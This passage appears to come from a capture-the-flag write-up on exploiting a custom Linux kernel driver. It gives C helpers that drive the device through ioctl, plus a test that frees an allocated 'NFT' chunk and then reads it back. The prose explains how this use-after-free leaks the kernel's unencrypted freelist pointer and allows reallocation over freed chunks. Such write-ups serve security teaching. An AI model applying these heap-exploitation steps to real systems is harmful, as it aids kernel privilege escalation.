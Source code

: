 ```c
        req.idx = idx;
        ans = ioctl(fd, READ, &req);
        if(out != NULL){
                memcpy(out, req.buffer, CHUNK_SIZE);
        }
        return ans;
}

int write_nft(int idx, char* data){
        req.idx = idx;
        memcpy(req.buffer, data, CHUNK_SIZE);
        return ioctl(fd, WRITE, &req);
}

void hexdump(uint8_t* buf, int size) {
    for (int i = 0; i < size; i+=16) {
        printf("0x%02hhx| ", i);
        for (int j = 0; j < 16; j++)
            printf("%02hhx ", buf[i+j]);
        puts("");
    }
}

int main(int argc, char *argv[])
{
        
        fd = open(DEVICE_FILE_NAME,0);
        if (fd < 0){
                puts("Device file not found.");
                exit(0);
        }  
}
```
Anyway, we now have a very useful primitive. NFTs that are added can be freed whilst still having access to them, meaning that by reallocating on top of them or reading the data, lots of useful info can be gained. The only kernel heap metadata that is stored in a chunk after it is freed is the freelist pointer(which in this case is unencrypted) in the middle of the chunk. This is far from any data that matters, so providing the free chunk is not reallocated by a different structure, the old freed data can still be used.

Ideally, the `sofirium_head` struct should remain reasonably unchanged and the `head` pointer should point to what it did before, except now the NFT data will contain a freelist pointer in it. To test,
```c
char buf[CHUNK_SIZE];
uint64_t* longbuf = (uint64_t *)(buf);

uint64_t* fake_nft = calloc(8, 24);
void* outbuf = calloc(1, 512);
memset(buf, 0x41, CHUNK_SIZE);
add_nft(buf);
free_nft();

read_nft(0, buf);
hexdump(buf, 0x100);
```

